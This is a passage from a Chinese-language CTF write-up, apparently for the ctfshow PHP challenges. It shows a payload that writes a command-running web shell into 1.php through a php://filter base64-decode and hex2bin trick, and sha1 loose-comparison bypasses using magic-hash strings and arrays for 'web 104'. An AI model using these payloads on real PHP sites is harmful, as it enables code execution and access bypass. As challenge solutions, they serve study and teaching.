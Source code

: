 题目环境为php7，所有不能使用十六进制编码绕过，

要让v2均为数字，首先我们考虑写入1.php时，利用伪协议写入恶意代码,同时让$v1为hex2bin (将十六进制转为ascii)

```
get:v2=？？？&v3=php://filter/write=convert.base64-decode/resource=1.php
post: v1=hex2bin
```

所以我们要考虑的就是如何让我们写入的恶意代码base64编码后，经16进制编码全为数字

```
$a='<?=`cat *`;';
$b=base64_encode($a);  // PD89YGNhdCAqYDs=
$c=bin2hex($b);      //等号在base64中只是起到填充的作用，不影响具体的数据内容，直接用去掉，=和带着=的base64解码出来的内容是相同的。
输出   5044383959474e6864434171594473

//带e的话会被认为是科学计数法，可以通过is_numeric检测
```

同时因为经过substr处理,从第三个字母开始取，所以v2前面还要补00
payload:

```php
get:v2=005044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
post: v1=hex2bin
```

写入成功后访问1.php，查看源码即可得到flag





## web 104

```php
<?php

highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}

?>
```

类似md5碰撞

```
#payload
aaK1STfY
0e76658526655756207688271159624026011393
aaO8zKZF
0e89257456677279068558073954252716165668

#payload：
GET：v2[]=1
POST: v1[]=2

#payload
GET:v2=a
POST:va=a
```

